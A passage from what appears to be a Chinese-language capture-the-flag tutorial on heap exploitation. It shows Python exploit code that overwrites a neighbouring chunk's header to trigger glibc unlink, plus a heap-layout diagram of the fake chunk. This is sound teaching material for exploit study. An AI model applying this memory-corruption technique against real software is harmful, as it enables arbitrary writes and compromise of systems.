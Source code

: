 #### 釋放 chunk1-覆蓋 chunk2-釋放 chunk2

對應的代碼如下

```python
# edit the chunk1 to overwrite the chunk2
deletenote(1)
content = 'a' * 16 + p64(0xa0) + p64(0x90)
newnote(0, content)
# delete note 2 to trigger the unlink
# after unlink, ptr[0] = ptr - 0x18
deletenote(2)
```

首先釋放 chunk1，由於該chunk屬於fastbin，所以下次在申請的時候仍然會申請到該chunk，同時由於上面所說的類型問題，我們可以讀取任意字符，所以就可以覆蓋chunk2，覆蓋之後如圖2所示。

```
                                   +-----------------+high addr
                                   |      ...        |
                                   +-----------------+
                                   |   '\x00'+'b'*7  |
                ptr[2]-----------> +-----------------+ chunk 2
                                   |    size=0x90    |
                                   +-----------------+
                                   |    0xa0         |
                                   +-----------------|------------
                                   |    'a'*8        |
                                   +-----------------+
                                   |    'a'*8        |
                 ptr[1]----------> +-----------------+ chunk 1
                                   |    size=0x20    |
                                   +-----------------+
                                   |    prevsize     |
                                   +-----------------|-------------
                                   |    unused       |
                                   +-----------------+
                                   |  prev_size=0x60 |
fake ptr[0] chunk's nextchunk----->+-----------------+
                                   |    64*'a'       |
                                   +-----------------+
                                   |    fakebk       |
                                   +-----------------+
                                   |    fakefd       |
                                   +-----------------+
                                   |    0x61         |  chunk 0
                                   +-----------------+
                                   |    'a *8        |
                 ptr[0]----------> +-----------------+
                                   |    size=0x91    |
                                   +-----------------+
                                   |    prev_size    |
                                   +-----------------+  low addr
                                           圖2
```
